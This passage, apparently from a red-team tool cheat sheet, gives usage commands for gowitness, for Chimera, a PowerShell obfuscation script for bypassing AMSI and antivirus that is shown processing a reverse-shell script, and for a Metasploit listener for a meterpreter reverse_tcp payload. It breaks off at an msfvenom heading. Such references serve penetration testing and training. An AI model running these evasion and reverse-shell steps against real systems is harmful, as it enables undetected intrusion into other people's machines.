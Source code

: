# Screenshot a single website
gowitness single https://www.google.com/

# Screenshot a cidr using 20 threads
gowitness scan --cidr 192.168.0.0/24 --threads 20

# Screenshot open http services from an namp file
gowitness nmap -f nmap.xml --open --service-contains http

# Run the report server
gowitness report serve
Full usage information can be found here.

image

Image used from https://github.com/sensepost/gowitness

Resource Development
🔙Chimera
Chimera is a PowerShell obfuscation script designed to bypass AMSI and antivirus solutions. It digests malicious PS1's known to trigger AV and uses string substitution and variable concatenation to evade common detection signatures.

Install:

sudo apt-get update && sudo apt-get install -Vy sed xxd libc-bin curl jq perl gawk grep coreutils git
sudo git clone https://github.com/tokyoneon/chimera /opt/chimera
sudo chown $USER:$USER -R /opt/chimera/; cd /opt/chimera/
sudo chmod +x chimera.sh; ./chimera.sh --help
Usage:

./chimera.sh -f shells/Invoke-PowerShellTcp.ps1 -l 3 -o /tmp/chimera.ps1 -v -t powershell,windows,\
copyright -c -i -h -s length,get-location,ascii,stop,close,getstream -b new-object,reverse,\
invoke-expression,out-string,write-error -j -g -k -r -p
image

🔙msfvenom
Msfvenom allows the creation of payloads for various operating systems in a wide range of formats. It also supports obfuscation of payloads for AV bypass.

Set Up Listener

use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST your-ip 
set LPORT listening-port 
run
Msfvenom Commands
PHP:
